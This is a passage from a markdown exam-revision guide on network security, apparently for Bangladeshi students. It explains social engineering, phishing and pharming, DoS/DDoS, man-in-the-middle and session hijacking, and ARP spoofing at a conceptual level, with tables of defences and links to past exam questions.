<!-- TOC START -->
**Table of Contents** — 5 subtopics · 20 theories

1. **[Social Engineering & Cyber Attacks](#social-engineering--cyber-attacks)**
   - [Social Engineering — Techniques and Prevention](#social-engineering--techniques-and-prevention)
   - [Phishing and Pharming](#phishing-and-pharming)
   - [Denial of Service (DoS) and DDoS Attacks](#denial-of-service-dos-and-ddos-attacks)
   - [Man-in-the-Middle (MITM) Attack and Session Hijacking](#man-in-the-middle-mitm-attack-and-session-hijacking)
   - [ARP Spoofing and DNS Poisoning](#arp-spoofing-and-dns-poisoning)
   - [Layer 2 Attacks — MAC Flooding and DHCP Starvation](#layer-2-attacks--mac-flooding-and-dhcp-starvation)
   - [Active vs Passive Attacks, and Types of Attacker](#active-vs-passive-attacks-and-types-of-attacker)
   - [The Major Cyber Attacks — A Master List](#the-major-cyber-attacks--a-master-list)

2. **[Cryptography](#cryptography)**
   - [Cryptography, Encryption and Decryption](#cryptography-encryption-and-decryption)
   - [Symmetric vs Asymmetric Encryption](#symmetric-vs-asymmetric-encryption)
   - [The RSA Algorithm](#the-rsa-algorithm)
   - [Hashing, and How It Differs from Encryption](#hashing-and-how-it-differs-from-encryption)
   - [Identifying Algorithm Types, DES and Key Management](#identifying-algorithm-types-des-and-key-management)

3. **[Firewalls & Network Defense](#firewalls--network-defense)**
   - [Firewall — Concept, Types and Placement](#firewall--concept-types-and-placement)
   - [DMZ, Proxy Server and Network Segmentation](#dmz-proxy-server-and-network-segmentation)
   - [IDS, IPS and Defence in Depth](#ids-ips-and-defence-in-depth)

4. **[Malware & Security Threats](#malware--security-threats)**
   - [Malware — Types and Characteristics](#malware--types-and-characteristics)

5. **[Web Security Vulnerabilities](#web-security-vulnerabilities)**
   - [SQL Injection](#sql-injection)
   - [Cross-Site Scripting (XSS) and CSRF](#cross-site-scripting-xss-and-csrf)
   - [Securing a Web Server and a Web Application](#securing-a-web-server-and-a-web-application)

<!-- TOC END -->

---

## Social Engineering & Cyber Attacks

### Social Engineering — Techniques and Prevention

**Social engineering** is the art of **manipulating people psychologically into revealing confidential information or performing actions that compromise security**. Instead of breaking the technology, the attacker **breaks the human being**.

> **The core idea:** *"Why spend a week cracking a password when you can just phone someone and ask for it?"*
> Humans are the **weakest link** in any security system — you can patch software, but you cannot patch a person.

#### The psychological principles exploited

| Principle | How it is used |
|---|---|
| **Authority** | Pretending to be the boss, an IT administrator, a police officer or a bank official |
| **Urgency / Scarcity** | *"Your account will be closed in 2 hours!"* — panic prevents careful thinking |
| **Fear** | *"Your computer is infected — call this number immediately"* |
| **Trust / Familiarity** | Posing as a colleague, a vendor or a friend |
| **Greed** | *"You have won a lottery / a free iPhone"* |
| **Helpfulness** | People naturally want to assist someone who appears to be in trouble |
| **Social proof** | *"Everyone in your department has already updated their password"* |

#### The attack lifecycle



#### Common social engineering techniques

| # | Technique | Description | Example |
|---|---|---|---|
| 1 | **Phishing** | Mass fraudulent emails/messages that appear to come from a trusted source | A fake "your bank account is locked" email |
| 2 | **Spear phishing** | Phishing **targeted at a specific individual**, using personal details | An email to an accountant naming their actual manager |
| 3 | **Whaling** | Spear phishing aimed at **senior executives** (CEO, CFO) | A fake legal subpoena to the Managing Director |
| 4 | **Vishing** (Voice phishing) | Fraud **over a phone call** | *"I'm calling from bKash — tell me the OTP to verify your account"* |
| 5 | **Smishing** (SMS phishing) | Fraud via **SMS** | *"You have won 50,000 Tk — click this link"* |
| 6 | **Pretexting** | Inventing a **believable false scenario** to obtain data | Posing as an auditor who "needs" the employee list |
| 7 | **Baiting** | Leaving infected media or offering something tempting | A **USB drive labelled "Salary 2026"** left in the office car park |
| 8 | **Quid pro quo** | Offering a service in return for information | *"I'm from IT support — give me your password and I'll fix your slow PC"* |
| 9 | **Tailgating / Piggybacking** | **Physically following** an authorised person through a secure door | Carrying boxes so someone holds the door open |
| 10 | **Shoulder surfing** | Watching someone type a PIN or password | At an ATM or in a café |
| 11 | **Dumpster diving** | Searching discarded papers and devices for information | Finding printed account lists in the rubbish |
| 12 | **Watering hole** | Compromising a website the target group is known to visit | Infecting a professional association's site |
| 13 | **Business Email Compromise (BEC)** | Impersonating an executive to authorise a fraudulent payment | *"Urgent: transfer 50 lakh to this supplier account today"* |
| 14 | **Scareware** | Fake warnings pushing the victim to install malware | *"Your PC has 5 viruses! Download our cleaner"* |

#### How to prevent social engineering

**People (the most important layer)**
1. **Regular security-awareness training** and **simulated phishing tests** for every employee.
2. **Verify independently** — call back on a **known official number**, never the one in the message.
3. **Never share passwords, PINs or OTPs** with anyone, including "IT support" or "the bank" — legitimate organisations never ask.
4. Cultivate a culture where **questioning and reporting is rewarded**, not treated as rudeness.

**Process**
5. **Clear, documented procedures** for payments and data release — a **dual-approval / call-back rule** for large transfers.
6. **Least privilege** — people can only reach what their job requires.
7. **Clean-desk and secure-disposal** policies; **shred** documents.
8. A simple, well-known **incident reporting channel**.

**Technology**
9. **Multi-Factor Authentication (MFA)** — even a stolen password is then insufficient.
10. **Email security gateway** with anti-phishing, **SPF/DKIM/DMARC**, and external-sender banners.
11. **Web filtering** and DNS protection against known malicious sites.
12. **Endpoint protection (EDR)** and **disabled USB auto-run**.
13. **Physical access control** — badges, mantraps, CCTV, visitor escorting.
14. **Monitoring and logging** to detect unusual access after a successful attack.

**Previous Year Question List from this Topic:**

- [Write down the 10 most Cyber attacks. Difference among Black Hat hacker, Grey hat hacker and white hat hacker.](../written-answers/computer-network-security.md?plain=1#L310)
- [Phishing attack এর মাধ্যমে কীভাবে attack করা হয়। উহার কারণে কি ক্ষতি হতে পারে?](../written-answers/computer-network-security.md?plain=1#L714)
- [What is social engineering? What is hashing? How is it different from encryption?](../written-answers/computer-network-security.md?plain=1#L1042)


---

### Phishing and Pharming

#### What is a phishing attack?

**Phishing** is a **social-engineering attack in which an attacker sends a fraudulent message that appears to come from a trusted source, in order to trick the victim into revealing sensitive information (passwords, card numbers, OTP) or installing malware.**

The name is a play on "fishing" — the attacker **casts bait** and waits for someone to bite.

#### How a phishing attack is carried out



#### Types of phishing

| Type | Target | Medium |
|---|---|---|
| **Email phishing** | Mass, untargeted | Email |
| **Spear phishing** | **One specific person**, using researched details | Email |
| **Whaling** | **Senior executives** | Email |
| **Vishing** | Anyone | **Voice call** |
| **Smishing** | Anyone | **SMS** |
| **Clone phishing** | Anyone | A **copy of a real email** the victim already received, with the attachment swapped |
| **Angler phishing** | Anyone | **Fake social-media support accounts** |
| **Pharming** | Anyone | **DNS manipulation** — no click needed |
| **Search-engine phishing** | Anyone | Fake sites promoted in search results/ads |

#### How to recognise a phishing message

1. **Urgency and threats** — "act within 24 hours or your account closes".
2. **Generic greeting** — "Dear Customer" instead of your name.
3. **Spelling and grammar mistakes**.
4. **A suspicious sender address** — `service@dbbl-secure.xyz` rather than the bank's real domain.
5. **A mismatched link** — hover over it; the displayed text and the real URL differ.
6. **Requests for credentials, OTP, PIN or card details** — legitimate organisations **never** ask.
7. **Unexpected attachments**, especially `.exe`, `.zip`, `.scr` or macro-enabled documents.
8. **Too-good-to-be-true offers**.

#### Prevention of phishing

**For users:** never click links in unsolicited messages — **type the address yourself**; **verify by calling** the official number; check for **HTTPS and the correct domain**; **never share OTP/PIN**; keep the browser and antivirus updated; and **report** suspicious mail.

**For organisations:** deploy an **email security gateway** with anti-phishing filtering; implement **SPF, DKIM and DMARC** so that attackers cannot spoof your domain; enforce **MFA** everywhere; run **simulated phishing campaigns** and training; use **web/DNS filtering**; flag **external** senders visually; enable **browser anti-phishing** features; and monitor for **lookalike domain registrations**.

#### Phishing vs Pharming

| Point | **Phishing** | **Pharming** |
|---|---|---|
| **Method** | Sends a **fraudulent message with a malicious link** — the victim must be **tricked into clicking** | **Redirects the victim automatically** by corrupting DNS resolution or the hosts file |
| **Requires user action?** | ✅ **Yes** — the victim must click or reply | ❌ **NO** — the victim types the **correct** address and is still sent to the fake site |
| **Attack vector** | Email, SMS, phone, social media | **DNS server poisoning**, malware altering the local **hosts file**, a compromised router |
| **Scale** | One message per victim (though sent in bulk) | **One poisoned DNS server redirects THOUSANDS** of users at once |
| **Detection by the user** | Possible — a careful user spots the wrong URL | **Very hard** — the address bar shows the **correct** URL |
| **Analogy** | Sending a fake letter with a wrong address on it | **Secretly changing the street signs** so everyone driving to the bank arrives at a fake one |
| **Example** | An email: *"Click here to verify your DBBL account"* leading to `dbbI-verify.com` | The user types `www.dbbl.com.bd` correctly, but a poisoned DNS entry sends them to the attacker's server |
| **Main defence** | **User awareness**, email filtering, MFA | **DNSSEC**, secured DNS servers, patched routers, anti-malware, **checking the TLS certificate** |

> **Why pharming is more dangerous:** it defeats the standard advice of "type the address yourself". The only reliable defence left to the user is to **check that the HTTPS certificate is valid and issued to the right organisation** — a pharming site cannot obtain a valid certificate for the real bank's domain.

**Previous Year Question List from this Topic:**

- [What is a phishing attack? Explain its types and discuss methods to prevent it.](../written-answers/computer-network-security.md?plain=1#L28)
- [Briefly explain phishing attack and denial-of-service (DoS) attack.](../written-answers/computer-network-security.md?plain=1#L197)
- [(b) Distinguish between phishing and pharming. Give examples to explain.](../written-answers/computer-network-security.md?plain=1#L653)
- [Phishing attack এর মাধ্যমে কীভাবে attack করা হয়। উহার কারণে কি ক্ষতি হতে পারে?](../written-answers/computer-network-security.md?plain=1#L714)
- [If you downloaded the email, you will be able to face the problem. Which attack do you face?](../written-answers/computer-network-security.md?plain=1#L5715)
- [e) What is email? What precautions can be taken to prevent unnecessary and unwanted e-mails?](../written-answers/computer-network-security.md?plain=1#L5742)


---

### Denial of Service (DoS) and DDoS Attacks

#### What is a DoS attack?

A **Denial of Service (DoS) attack** is an attack that attempts to make a **machine, service or network resource UNAVAILABLE to its legitimate users**, by flooding it with traffic or sending requests that trigger a crash.

> The attacker does **not** steal or modify data — the goal is purely **disruption: availability**, the "A" of the CIA triad.

#### DoS vs DDoS



| Point | **DoS** | **DDoS** |
|---|---|---|
| **Number of attacking sources** | **ONE** machine / one IP | **MANY thousands** of compromised machines (a **botnet**) |
| **Traffic volume** | Limited by one machine's bandwidth | **Enormous** — terabits per second |
| **Blocking it** | **Easy** — block the single source IP | **Very hard** — traffic comes from millions of legitimate-looking IPs worldwide |
| **Tracing the attacker** | Relatively easy | **Very difficult** — the real attacker hides behind the bots |
| **Speed of impact** | Slower | **Very fast** |
| **Complexity** | Simple | Requires building or renting a botnet |
| **Damage potential** | Moderate | **Severe** — can take down major services |
| **Example** | A single flood tool run from one PC | The **Mirai botnet (2016)**, built from IoT cameras, which took down Dyn DNS and much of the US internet |

#### How a DDoS attack works — the mechanism

1. **Build the botnet.** The attacker infects thousands of computers, routers, cameras and IoT devices with malware, turning them into **bots (zombies)**. Their owners have no idea.
2. **Command and Control (C&C).** All bots connect to the attacker's C&C server and wait for instructions.
3. **Launch.** The attacker issues one command; **every bot simultaneously floods the target** with requests.
4. **Saturation.** The target's bandwidth, connection table, CPU or memory is exhausted.
5. **Denial.** Legitimate users get timeouts — the service is effectively down.

#### Types of DDoS attack

| Layer | Type | Mechanism | Examples |
|---|---|---|---|
| **Volumetric** (most common) | Saturate the **bandwidth** | Send more gigabits than the pipe can carry | **UDP flood, ICMP/Ping flood, DNS amplification, NTP amplification** |
| **Protocol / State-exhaustion** | Exhaust **server or firewall connection tables** | Abuse protocol behaviour | **SYN flood**, Ping of Death, Smurf attack, fragmented packet attacks |
| **Application layer (L7)** | Exhaust **application resources** | Send requests that look legitimate but are expensive | **HTTP flood**, Slowloris, expensive database queries |

**The SYN flood explained** — the classic protocol attack:



**DNS amplification** — the attacker sends a **small** DNS query (60 bytes) with the **victim's IP spoofed as the source**, to thousands of open DNS resolvers. Each replies with a **large** answer (4000 bytes) sent to the victim. A **70× amplification factor** turns a modest attacker into a massive flood.

#### Impact of a DoS/DDoS attack

Service downtime and lost revenue · reputational damage and customer loss · staff diverted to incident response · SLA penalties · **smokescreen** — DDoS is often used to distract the security team while a **data theft** happens elsewhere · regulatory consequences for a bank.

#### Prevention and mitigation

| Measure | How it helps |
|---|---|
| **DDoS protection service / scrubbing centre** | Cloudflare, Akamai, AWS Shield absorb and filter the flood before it reaches you |
| **Over-provisioned bandwidth** | Buys time to respond |
| **Rate limiting** | Cap requests per IP per second |
| **CDN** | Distributes load across a global network |
| **Load balancers and auto-scaling** | Spread the traffic; add capacity automatically |
| **Firewall and IPS rules** | Drop malformed and known-bad traffic |
| **SYN cookies** | Defeat SYN floods without allocating memory |
| **Blackhole / sinkhole routing** | Drop attack traffic upstream at the ISP |
| **Anycast** | Spread the attack across many data centres |
| **Disable open resolvers/reflectors** | Prevents your own servers being used for amplification |
| **Ingress filtering (BCP 38)** at the ISP | Blocks spoofed source addresses at the network edge |
| **An incident response plan** | Know who to call at the ISP at 3 a.m. |
| **Traffic-baseline monitoring** | Detect the anomaly in the first minutes |

**Previous Year Question List from this Topic:**

- [What is a DoS attack? Explain the mechanism of a DDoS attack and how it differs from a simple DoS attack.](../written-answers/computer-network-security.md?plain=1#L125)
- [Briefly explain phishing attack and denial-of-service (DoS) attack.](../written-answers/computer-network-security.md?plain=1#L197)
- [What is Cyber Security? Write down the top 10 cyber attack. Discuss about Ransomware and DDoS attack.](../written-answers/computer-network-security.md?plain=1#L341)
- [What is meant by Encryption and Decryption? What is Cyber security? Write down the top 10 cyber attack.](../written-answers/computer-network-security.md?plain=1#L370)
- [What is Denial of Service (DoS) is and NAT?](../written-answers/computer-network-security.md?plain=1#L488)
- [What do you understand by DOS attack and Man-in-the-middle attack? Please explain how it can be occurred?](../written-answers/computer-network-security.md?plain=1#L507)
- [What is DDoS and SQL Injection attack?](../written-answers/computer-network-security.md?plain=1#L678)
- [Briefly describe about DoS, IP address spoofing and Man-in-the-middle attacks.](../written-answers/computer-network-security.md?plain=1#L942)


---

### Man-in-the-Middle (MITM) Attack and Session Hijacking

#### What is a MITM attack?

A **Man-in-the-Middle (MITM)** attack is one in which the attacker **secretly positions themselves between two communicating parties**, **intercepting and possibly altering** the traffic, while both parties believe they are talking directly and securely to each other.



#### How a MITM attack is performed

| Technique | Mechanism |
|---|---|
| **ARP spoofing** | On a LAN, the attacker poisons the ARP cache so traffic is routed through their machine |
| **Rogue / Evil-twin Wi-Fi** | The attacker runs a free access point named "Airport_Free_WiFi"; everyone who connects sends traffic through them |
| **DNS spoofing** | The victim is directed to the attacker's server |
| **SSL stripping** | The attacker downgrades an HTTPS connection to plain HTTP |
| **Fake / rogue certificate** | A forged or fraudulently issued TLS certificate |
| **IP spoofing and session hijacking** | Taking over an established connection |
| **BGP hijacking** | Re-routing whole networks at the internet backbone level |

#### MITM on the Diffie-Hellman key exchange — the classic worked example

**Diffie-Hellman (DH)** lets two parties agree a shared secret over a public channel. Its fatal weakness in its **plain, unauthenticated** form is that **neither party can verify who they are talking to**.

**Normal Diffie-Hellman:** Alice and Bob agree public values **p** (a large prime) and **g** (a generator). Alice picks a secret **a** and sends **A = gᵃ mod p**; Bob picks a secret **b** and sends **B = gᵇ mod p**. Alice computes **Bᵃ = g^(ab)**, Bob computes **Aᵇ = g^(ab)** — the **same shared key**, which an eavesdropper cannot derive (the discrete logarithm problem).

**The attack:**



**The result:** Alice shares key **K1** with Mallory, and Bob shares key **K2** with Mallory. **Neither knows.** Mallory decrypts everything with one key, reads or modifies it, and re-encrypts with the other. Both parties see a perfectly working encrypted session.

**The defence — AUTHENTICATED Diffie-Hellman:**
1. **Digital signatures** — each party signs their DH public value with their private key, so the other can verify it really came from them. *(This is what TLS does.)*
2. **Digital certificates from a trusted CA**, binding the public key to a verified identity.
3. **Station-to-Station (STS) protocol** — DH with mutual signature authentication.
4. **Pre-shared keys** or a **password-authenticated key exchange (PAKE)**.
5. **Out-of-band verification** of a key fingerprint (as Signal and WhatsApp offer).

> **The lesson to state in the exam:** *Diffie-Hellman provides **confidentiality against a passive eavesdropper**, but **no authentication**. Without authentication it is completely broken by an active man-in-the-middle. Encryption without authentication is not security.*

#### Session hijacking

**Session hijacking** is the attack in which an attacker **takes over a valid, already-authenticated session** between a user and a server by stealing or predicting the **session ID / session cookie** — gaining access **without ever knowing the password**.



**How the session ID is stolen:** **packet sniffing** on an unencrypted or shared network · **XSS** (JavaScript reading `document.cookie`) · **session fixation** (forcing a known ID on the victim before they log in) · **predictable session IDs** (sequential or weakly random) · **malware/browser extensions** · **MITM**.

**Prevention:**
1. **Use HTTPS everywhere** — encrypt the whole session so cookies cannot be sniffed.
2. Set cookies as **`Secure`** (HTTPS only), **`HttpOnly`** (unreadable by JavaScript, defeating XSS theft) and **`SameSite`**.
3. Generate **long, cryptographically random session IDs**.
4. **Regenerate the session ID on login** — defeats session fixation.
5. Enforce **session timeout** and idle expiry; log out properly (invalidate server-side).
6. Bind the session to the **IP address and user-agent** and re-authenticate on change.
7. Require **re-authentication** for sensitive actions (a fund transfer).
8. **MFA**, and monitoring for concurrent sessions from different countries.

#### Countermeasures against MITM generally

| Measure | Protects by |
|---|---|
| **Strong encryption — TLS 1.3 / HTTPS everywhere** | The attacker sees only ciphertext |
| **Certificate validation and HSTS** | Prevents SSL stripping and fake certificates |
| **Certificate pinning** | The app accepts only its own known certificate |
| **VPN on untrusted networks** | Tunnels everything past a hostile Wi-Fi |
| **Avoid public/open Wi-Fi** for sensitive work | Removes the easiest attack position |
| **Mutual authentication** | Both sides prove identity |
| **Dynamic ARP Inspection + DHCP snooping** on switches | Blocks ARP poisoning on the LAN |
| **DNSSEC** | Prevents DNS spoofing |
| **MFA** | A stolen password alone is useless |

**Previous Year Question List from this Topic:**

- [What is a Man-in-the-Middle (MITM) attack? Describe two countermeasures to prevent it.](../written-answers/computer-network-security.md?plain=1#L93)
- [What is a Man-inThe Middle (MitM) attack? How can it be prevented?](../written-answers/computer-network-security.md?plain=1#L166)
- [How to attack DHCP server in MIMA?](../written-answers/computer-network-security.md?plain=1#L216)
- [Describe a man-in the middle attack on the Diffie-Hellman key exchange protocol in which the adversary generates two public key pairs for the attack.](../written-answers/computer-network-security.md?plain=1#L411)
- [What do you understand by DOS attack and Man-in-the-middle attack? Please explain how it can be occurred?](../written-answers/computer-network-security.md?plain=1#L507)
- [Explain ARP Spoofing attack with diagram. Why ARP spoofing attacker used to launch Man-in-the-Middle attack.](../written-answers/computer-network-security.md?plain=1#L745)
- [(d) Explain the principle of man in the middle and session hijacking attack with appropriate diagrams.](../written-answers/computer-network-security.md?plain=1#L854)
- [Briefly describe about DoS, IP address spoofing and Man-in-the-middle attacks.](../written-answers/computer-network-security.md?plain=1#L942)
- [What is session hijacking and how to encrypt username and password in PHP?](../written-answers/computer-network-security.md?plain=1#L3619)


---

### ARP Spoofing and DNS Poisoning

#### What is ARP?

**ARP (Address Resolution Protocol)** maps a known **IP address** to the **MAC (hardware) address** on a local network. A host broadcasts *"Who has 192.168.1.1?"* and the owner replies *"I do — my MAC is AA:BB:CC:DD:EE:FF."* The answer is stored in the **ARP cache**.

**The fundamental flaw: ARP is STATELESS and has NO AUTHENTICATION.** A host will accept and cache **any ARP reply**, even one it never asked for (a *gratuitous* ARP), and will happily overwrite an existing entry.

#### ARP spoofing / ARP poisoning

The attacker **sends forged ARP replies** claiming that **the gateway's IP belongs to the attacker's MAC address**, and simultaneously tells the gateway that **the victim's IP belongs to the attacker's MAC**. Both now send their traffic to the attacker.



**Step by step:**
1. The attacker joins the same LAN (an office Wi-Fi, a café, a compromised machine).
2. They scan to find the victim's and the gateway's IP and MAC addresses.
3. They send a **forged ARP reply to the victim**: *"192.168.1.1 (the gateway) is at AA:AA"* — the attacker's MAC.
4. They send a **forged ARP reply to the gateway**: *"192.168.1.10 (the victim) is at AA:AA"*.
5. Both caches are now poisoned; **all traffic in both directions flows through the attacker**.
6. The attacker enables **IP forwarding** so traffic still reaches its destination — the victim notices nothing.
7. The attacker now **sniffs passwords, injects content, strips SSL or modifies data**.

> ### "Why do attackers use ARP spoofing to launch a Man-in-the-Middle attack?"
> Because on a **switched** network an attacker normally sees **only their own traffic** — the switch forwards frames only to the correct port. ARP spoofing is the simplest way to **make the victim voluntarily send its traffic to the attacker**, placing the attacker *in the middle* of every conversation. It requires no password, no exploit and no privilege — only presence on the same LAN — which is why it is the **foundation of most LAN-based MITM, sniffing, session-hijacking and SSL-stripping attacks**.

**Prevention of ARP spoofing**

| Measure | How it helps |
|---|---|
| **Dynamic ARP Inspection (DAI)** on managed switches | The switch validates every ARP packet against a trusted DHCP snooping database and drops forgeries — **the primary defence** |
| **DHCP snooping** | Builds the trusted IP-to-MAC binding table that DAI uses |
| **Static ARP entries** | For critical servers and gateways — cannot be overwritten |
| **Port security** | Limits which MAC addresses may appear on a port |
| **Network segmentation / VLANs** | Confines an attacker to a small broadcast domain |
| **Encryption (HTTPS, SSH, VPN)** | Even if intercepted, the traffic is unreadable |
| **ARP monitoring tools** (arpwatch, XArp) | Alert when a MAC-to-IP mapping changes |
| **802.1X port authentication** | Stops unauthorised devices joining the LAN at all |

#### DNS poisoning / DNS spoofing / DNS cache poisoning

**DNS poisoning** is an attack in which **false DNS records are injected into a DNS resolver's cache**, so that queries for a legitimate domain return the **attacker's IP address**, silently redirecting users to a malicious site.

